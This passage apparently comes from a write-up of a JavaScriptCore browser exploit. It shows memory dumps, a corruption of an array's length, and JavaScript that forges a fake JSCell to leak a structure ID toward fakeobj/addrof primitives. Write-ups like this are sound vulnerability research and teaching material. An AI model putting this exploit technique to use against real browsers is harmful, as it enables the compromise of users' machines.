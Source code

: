 ```plaintext
0x8515bad08: 0x0001010000000000 // <- The index 0 value of array becomes 0x0001010000000000.
0x8515bad10: 0x00000008515bad05
0x8515bad18: 0x0000000000000000
0x8515bad20: 0x0000000000000000
0x8515bad28: 0x7ff8000000000000
0x8515bad30: 0x0000000500000003
0x8515bad38: 0x000000053cb63cc0
0x8515bad40: 0x0000000508514480
0x8515bad48: 0x0000000508514480
0x8515bad50: 0x0000000000000000
0x8515bad58: 0x0000000000000000
0x8515bad60: 0x0000133800001338 // <- Change the next array length with the vector of length 0x605.
0x8515bad68: 0x010824070000b152
0x8515bad70: 0x0000000508514488
0x8515bad78: 0x0000000000000000
0x8515bad80: 0x0000000000000000
0x8515bad88: 0x7ff8000000000000
0x8515bad90: 0x0000000500000003
0x8515bad98: 0x0000000822b00070
0x8515bada0: 0x00000005085ec7e0
```

We find the array where the index 0 value is `0x0001010000000000`, and modify the vector to change the length of the next array.

Now we have a double array of length `0x1338`. We can use this array to create `JSCell` value leaks, fakeobj/addrof primitives.

&nbsp;

### 4. valid JSCell | structure id leak

```javascript
// ...
fake_array[0] = qwordAsFloat(0x0008240700000828);  // fake JSCell | not valid structure id, // [1]
fake_array[1] = fake_array[6];  // fake_array[6] is original array. // [2]
fake_array[6] = qwordAsFloat( floatAsQword( addr_list[0] ) + 0xc0); // [3]
// -------
var jscell = g_contigous_array[g_index][0][0]; // [4]
fake_array[0] = jscell; // store to valid JSCell id & structure id
// ...
```

Above code gets the `jscell` and `structure id` accordingly.

1. Write fake `JSCell` and invalid structure id in index 0 of `fake_array`.
2. Put the index 6 value of `fake_array` (the address of the tmp array) into the index 1 of `fake_array`.
3. Put the index 0 address of `fake_array` into the index 6 element of `fake_array`. (The index 6 element of `fake_array` is the index 0 element of `g_contigous_array`.)
4. Now, when the index 0 element of `g_contigous_array` is read, the `JSCell` and structure id of the tmp array are obtained.

```plaintext
// ...
0x8515bad60: 0x0000133800001338
0x8515bad68: 0x0008240700000828 // [0] fake jscell | not valid structure id, 
0x8515bad70: 0x000000011dad0f20 // [1] address of tmp array
0x8515bad78: 0x0000000000000000
0x8515bad80: 0x0000000000000000
0x8515bad88: 0x7ff8000000000000
0x8515bad90: 0x0000000500000003 // <- g_contigous_array Nth length
0x8515bad98: 0x00000008515bad68 // <- g_contigous_array Nth index 0.
```
